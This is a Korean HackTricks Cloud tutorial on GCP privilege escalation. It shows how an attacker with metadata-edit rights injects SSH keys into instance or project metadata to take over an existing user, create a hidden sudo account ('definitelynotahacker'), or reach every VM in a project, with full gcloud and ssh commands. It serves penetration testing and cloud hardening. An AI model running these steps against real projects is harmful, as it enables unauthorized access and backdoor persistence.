 # GCP - 사용자 정의 SSH 메타데이터 추가

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 처음부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)에 가입하거나 [텔레그램 그룹](https://t.me/peass)에 가입하거나** **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>

## 메타데이터 수정 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 획들할 경우 중대한 보안 위험**으로 이어질 수 있습니다.

### **사용자 정의 메타데이터에 SSH 키 통합**

GCP에서 **Linux 시스템**은 종종 [Google Compute Engine용 Python Linux 게스트 환경](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이 작업의 중요한 구성 요소는 [계정 데몬](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)으로, 이는 **인스턴스 메타데이터 엔드포인트를 정기적으로 확인하여 인증된 SSH 공개 키에 대한 업데이트를 확인**합니다.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 데몬이 새로운 공개 키를 찾아서 처리하고 **로컬 시스템에 통합**할 수 있습니다. 이 키는 기존 사용자의 `~/.ssh/authorized_keys` 파일에 추가되거나 키의 형식에 따라 `sudo` 권한이 있는 새 사용자가 생성될 수 있습니다. 그리고 공격자는 호스트를 compromise할 수 있게 됩니다.

### **기존 권한이 있는 사용자에게 SSH 키 추가**

1. **인스턴스의 기존 SSH 키 확인:**
- 인스턴스 및 해당 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래에 있으며 특히 `ssh-keys` 키 아래에 있을 것입니다.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH 키의 형식에 주의하십시오: 사용자 이름이 콜론으로 구분된 키 앞에 옵니다.

2. **SSH 키 메타데이터용 텍스트 파일 준비:**
- 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 새 키를 추가하는 동안 기존 키를 보존하는 데 중요합니다.

3. **대상 사용자(`alice` 예시)를 위한 새 SSH 키 생성:**
- `ssh-keygen` 명령을 사용하여 새 SSH 키를 생성하고, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 인스턴스 메타데이터에서 발견된 형식을 모방하여 새 공개 키를 `meta.txt`에 추가합니다.

4. **인스턴스의 SSH 키 메타데이터 업데이트:**
- `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **새 SSH 키를 사용하여 인스턴스에 액세스:**
- 새 키를 사용하여 SSH로 인스턴스에 연결하여 대상 사용자(`alice` 예시)의 쉘에 액세스합니다.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **새로운 권한이 있는 사용자 생성 및 SSH 키 추가**

흥미로운 사용자를 찾을 수 없는 경우, `sudo` 권한이 부여된 새 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 프로젝트 수준의 SSH 키 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 확대할 수 있습니다. 이 접근 방식은 프로젝트 내의 모든 인스턴스에 SSH 액세스를 허용하며, 해당 프로젝트 수준에서 SSH 키가 명시적으로 차단되지 않은 경우에만 적용됩니다. 아래는 요약된 가이드입니다:

1. **프로젝트 수준에 SSH 키 적용:**
- `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`에서 SSH 키를 프로젝트 메타데이터에 추가합니다. 이 작업을 통해 SSH 키가 프로젝트 내의 모든 VM에서 인식되도록합니다. 단, VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않은 경우입니다.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH:**
- 프로젝트 전체 SSH 키가 설정되어 있으면 프로젝트 내의 모든 인스턴스에 SSH할 수 있습니다. 프로젝트 전체 키를 차단하지 않은 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
- 인스턴스에 직접 SSH하는 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.


# 참고 자료
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
